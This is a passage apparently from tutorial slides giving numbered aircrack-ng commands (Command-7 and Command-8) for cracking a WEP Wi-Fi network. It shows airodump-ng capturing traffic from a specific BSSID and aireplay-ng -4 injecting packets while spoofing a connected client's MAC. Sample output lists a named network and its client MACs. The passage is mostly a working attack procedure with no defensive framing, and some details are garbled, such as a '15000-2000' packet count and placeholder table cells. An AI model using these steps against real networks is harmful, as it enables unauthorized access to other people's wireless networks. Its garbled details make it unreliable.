

Command-7 ->
airodump-ng --BSSID 64:EE:B7:C0:D7:16 --channel 1 –w NewFile wlan0

	  ⇓⇓⇓⇓ Will SHOW IN THE SCREEN ⇓⇓⇓⇓⇓

	   CH  2 ][ Elapsed: 0 s ][ 2022-02-28 02:02
                     BSSID              PWR  Beacons    #Data, #/s  CH   MB       ENC    CIPHER  AUTH ESSID
            64:EE:B7:C0:D7:01   -48      3               101    0  1   270    WEP WEP    PSK  Foyzul-Islam-Riaz

 BSSID (WIFI)        STATION (USER MAC)  PWR   Rate    Lost    Frames  Notes  Probes
64:EE:B7:C0:D7:16    11:22:33:44:55:66   @  	@           @             @        @           #
64:EE:B7:C0:D7:16    2D:1C:45:55:CD:55   @  	@           @             @        @           #
64:EE:B7:C0:D7:16    F1:C2:D3:AB:22:55   @  	@           @             @        @           #

	~OPEN ANOTHER TAB ~

Command-8 ->
 aireplay-ng -4 -b 64:EE:B7:C0:D7:16 -h 11:22:33:44:55:66 wlan0

Wait until sent ARP  15000-2000 Packets then PRESS -> Ctrl+C to stop capture.